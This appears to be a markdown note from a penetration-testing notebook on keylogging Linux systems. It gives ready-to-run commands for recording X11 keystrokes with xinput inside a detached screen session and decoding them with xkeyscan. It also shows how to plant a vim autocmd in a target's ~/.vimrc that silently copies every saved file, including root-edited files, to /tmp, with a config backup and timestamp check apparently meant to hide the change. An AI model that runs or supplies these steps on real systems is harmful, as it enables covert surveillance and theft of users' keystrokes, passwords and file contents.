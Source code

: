 # Keylogging

## 01 - Script

- Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

- Exporting the keyboard mapping will show the keybindings that can be translated to actual keystrokes.

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

- Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

- While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

`$ python xkeyscan.py xinput-keylogger.log`

## 02 - Vim

### 2.1 - Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### 2.2 - Vim scripts for logging keystrokes

- Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

- Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### 2.3 - Insert keylogging configuration

- Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

---
## References

- [[Screen]]

- [RedHat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

- [xkeyscan](https://github.com/porterhau5/xkeyscan)

- [Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

- [Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)